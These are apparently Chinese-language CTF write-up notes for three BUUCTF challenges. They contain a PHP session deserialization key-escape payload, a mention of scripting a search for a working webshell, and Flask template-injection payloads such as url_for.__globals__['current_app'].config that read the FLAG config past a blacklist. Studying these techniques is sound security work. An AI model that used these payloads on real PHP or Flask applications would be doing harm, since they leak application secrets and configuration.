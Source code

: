 `$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}'`

再在后面加上一个键值对,目的是为了让序列化合法化丢弃后面部分

`$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"aa";s:1:"b";}'`

此时序列化结果如下:

`a:3:{s:4:"user";s:5:"guest";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"b";s:1:"a";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

再对user进行更改:

user的值肯定要改成全是flag或者php的格式,其长度有后面部分决定,目的是为了把`";s:8:"function";s:58:"a`全都包括进来,所以长度应该是24,

那么就可以凑出user的值,此处可以是`flagflagflagflagflagflag`

此时就可以构造payload:

`_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"b";s:1:"a";}&_SESSION[user]=flagflagflagflagflagflag`



# buuctf 高明的黑客

访问**/www.tar.gz**,下载源码

发现有无数php文件

不可能找过去,

打开其中几个发现有很多shell

猜测可能有成功的shell于是编写脚本(buuctf高明的黑客.py)



# buuctf Shrine

给出了一个python源码,可以看出是flask框架

源码中有两个路由，其中还有`/shrine/`路径，简单测试是否存在模版注入：`/shrine/{{2+2}}`

补充:路由传参只要再url后加上**/[路由名字]/[传入数据]**即可

- 首先`replace()`会将`()`替换为空
- 其中黑名单处理会将单独的`config`和`self`替换为`None`

若不存在黑名单，可以使用`{{self.__dict__}}`读取，通过查阅资料，Python的沙箱逃逸可以利用Python对象之间的引用关系来调用被禁用的函数对象，其中有两个函数包含了current_app
全局变量，也就是：url_for()和get_flashed_messages()

payload:

`/shrine/{{url_for.__globals__}}`

`/shrine/{{url_for.__globals__['current_app'].config}}`

`/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}`     #在其中搜索flag
